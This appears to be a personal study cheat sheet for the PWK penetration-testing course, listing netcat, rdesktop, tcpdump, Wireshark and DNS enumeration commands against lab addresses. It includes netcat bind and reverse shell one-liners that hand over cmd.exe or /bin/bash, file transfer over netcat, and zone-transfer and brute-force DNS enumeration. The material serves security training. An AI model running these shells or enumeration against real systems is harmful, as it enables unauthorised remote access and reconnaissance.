 ```yaml
---
title: tools
tags: PWK
---
```



## NETCAT

> → connect to:

```bash
nc -n (skip dns) -v 10.11.0.22 110
```

> → rdp to pc

```bash
rdesktop 10.11.0.22 -u offsec -p lab -g 1024x768 -x 0x80
```

> → configure nc listener on a pc

```bash
nc -nvlp 4444
```

> → connect to the pc with nc

```bash
nc -nv 10.11.0.22 4444
```

> → transfer files to / create a listener on pc

```bash
nc -nvlp 4444 > incoming.exe
```

> → create connection from linux

```bash
locate wget.exe
nc -nv 10.11.0.22 4444 < <locate result>
```

> → remote administration
>
> - from PC

```bash
nc -nlvp 4444 -e cmd.exe
```

> - linux
>
```bash
nc -nv 10.11.0.22 4444
```

> → reverse shell  
win pc  

```bash
nc -nlvp 4444
```

linux  

```bash
nc -nv 10.11.0.22 4444 -e /bin/bash
```

## wireshark

```bash
net filter → net 10.11.1.0/24
display filter → tcp port == 21
```

## tcpdump

```bash
sudo tcpdump -n -r password_cracking_filtered.pcap | awk -F “ ” ‘{print $3}’ | sort | uniq -c | head

sudo tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap
sudo tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap
sudo tcpdump -n port 81 -r password_cracking_filtered.pcap

sudo tcpdump -nX -r password_cracking_filtered.pcap | less
```

> → read the header of the packet and look for ACK and GET  

```bash
sudo tcpdump -A -n ‘tcp[13] = 24’ -r password_cracking_filtered.pcap
```

## RELEVANT TOOLS IN KALI  

- DNSCON

```bash
dnsrecon -d megacorpone.com -t axfr (to do a zone transfer)
dnsrecon -d megacorpone.com -D ~/list.txt -t brt (to do a brute force enum)
```

- DNSENUM  

```bash
dnsenum zonetransfer.com
```
